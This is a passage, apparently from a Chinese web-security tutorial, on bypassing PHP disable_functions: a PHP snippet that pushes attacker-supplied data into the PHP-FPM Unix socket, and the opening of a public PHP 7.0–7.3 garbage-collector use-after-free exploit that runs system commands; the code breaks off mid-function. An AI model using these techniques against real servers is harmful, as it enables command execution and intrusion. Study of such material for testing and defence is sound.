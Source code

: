  在打SSRF前，由于在服务端中Nginx和FPM分别会进行一次URL解码，所以上述得到的**还要再编码一次**才能使用

### **攻击Unix套接字模式下的PHP-FPM**

上面讲的都是php-fpm通过TCP方式与nginx连接，那如果php-fpm通过unix套接字与nginx连接该怎么办

```php
<?php 
$sock=stream_socket_client('unix:///run/php/php7.3-fpm.sock');
fputs($sock, base64_decode($_POST['A']));
var_dump(fread($sock, 4096));
?>
```

默认套接字的位置在/run/php/php7.3-fpm.sock（7.3是php版本号）

 如果不在的话可以通过默认/etc/php/7.3/fpm/pool.d/www.conf 配置文件查看套接字路径 或者 TCP模式的端口号
 当然，如果采用套接字的方式连接，我们暂时不能使用ssrf来攻击php-fpm，只能通过linux的数据流来进行数据传递，相对于tcp还是比较安全的
 exp的话，把上面那个exp的最后三行改下就行了，如果是base64数据传输换成base64encode，如果直接传的话把gopher的字符串去掉。

# 0x08 利用GC UAF

## 使用条件

- Linux系统
- 7.0<=php版本<=7.3 all version to date

## 原理简述

此漏洞利用PHP垃圾收集器中存在三年的一个bug，通过PHP垃圾收集器中堆溢出来绕过disable_function并执行系统命令

贴脚本https://github.com/mm0r1/exploits/tree/master/php7-gc-bypass

```php
<?php

# PHP 7.0-7.3 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=72530
#
# This exploit should work on all PHP 7.0-7.3 versions
#
# Author: https://github.com/mm0r1

pwn("uname -a");

function pwn($cmd) {
    global $abc, $helper;

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
```